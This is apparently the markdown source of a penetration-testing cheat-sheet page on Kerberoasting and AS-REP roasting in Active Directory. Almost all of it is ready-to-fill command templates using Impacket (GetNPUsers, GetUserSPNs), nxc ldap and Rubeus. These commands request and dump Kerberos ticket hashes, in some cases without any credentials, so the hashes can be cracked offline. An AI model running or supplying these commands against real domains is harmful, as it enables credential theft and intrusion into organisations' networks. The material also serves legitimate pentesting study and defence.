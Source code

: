 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 active >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC>
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <TARGET> <DOMAIN>/<USER>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <TARGET> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 active >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Fix time skew
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC_IP> <DOMAIN>/
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc ldap <DC_IP> -u <USER> -p '<PASSWORD>' --kerberoasting kerberoast_hashes.txt
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
